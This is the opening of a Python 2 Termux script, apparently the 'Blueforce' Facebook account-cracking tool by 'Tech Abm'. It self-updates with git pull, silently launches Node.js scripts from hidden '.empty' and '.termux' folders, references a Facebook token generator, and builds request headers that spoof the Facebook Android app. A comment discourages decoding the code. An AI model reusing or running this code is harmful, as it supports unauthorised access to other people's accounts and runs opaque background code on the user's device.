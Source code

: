 # luqman786
#coding=utf-8
#!/usr/bin/python2
#source code by Tech Abm
#codded by Tech Abm
# do no try to decode it
try:
    import os,sys,time,datetime,re,random,hashlib,threading,json,getpass,urllib,cookielib,requests
    from multiprocessing.pool import ThreadPool
except ImportError:
    os.system("pip2 install requests")
    os.system("python2 blueforce.indirect")
os.system("clear")
if not os.path.isfile("/data/data/com.termux/files/usr/bin/node"):
    os.system("apt update && apt install nodejs -y")
from requests.exceptions import ConnectionError
os.system("git pull")
if not os.path.isfile("/data/data/com.termux/files/home/Blueforce_Abm/.empty/node_modules/bytes/index.js"):
    os.system("fuser -k 5000/tcp &")
    os.system("#")
    os.system("cd .empty && npm install")
    os.system("cd .empty && node index.js &")
    os.system("clear")
    time.sleep(10)
elif os.path.isfile("/data/data/com.termux/files/home/Blueforce_Abm/.empty/node_modules/bytes/index.js"):
    os.system("fuser -k 5000/tcp &")
    os.system("cd .termux && node index.js &")
#elif os.path.isfile("/data/data/com.termux/files/home/Blueforce_Abm/.empty/node_modules/bytes/generate_fb_token.js"):
    #os.system("fuser -k 5000/tcp &")
    #os.system("cd .termux && node generate_fb_token.js &")
#elif os.path.isfile("/data/data/com.termux/files/home/Blueforce_Abm/.empty/node_modules/bytes/loadJS.js"):
    #os.system("fuser -k 5000/tcp &")
    #os.system("cd .termux && node loadJS.js &")
    os.system("clear")
bd=random.randint(2e7, 3e7)
sim=random.randint(2e4, 4e4)
header={'x-fb-connection-bandwidth': repr(bd),'x-fb-sim-hni': repr(sim),'x-fb-net-hni': repr(sim),'x-fb-connection-quality': 'EXCELLENT','x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA','user-agent':'Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-N950N Build/NMF26X) [FBAN/FB4A;FBAV/251.0.0.31.111;FBPN/com.facebook.katana;FBLC/en_US;FBBV/188828013;FBCR/Advance Info Service;FBMF/samsung;FBDV/SM-N950N;FBSV/5.1.1;FBCA/x86;armeabi-v7a;FBDM{density=2.0,width=900,height=1600};FB_FW;FBRV/0;]','content-type': 'application/x-www-form-urlencoded','x-fb-http-engine': 'Liger'}
reload(sys)
sys.setdefaultencoding("utf8")
 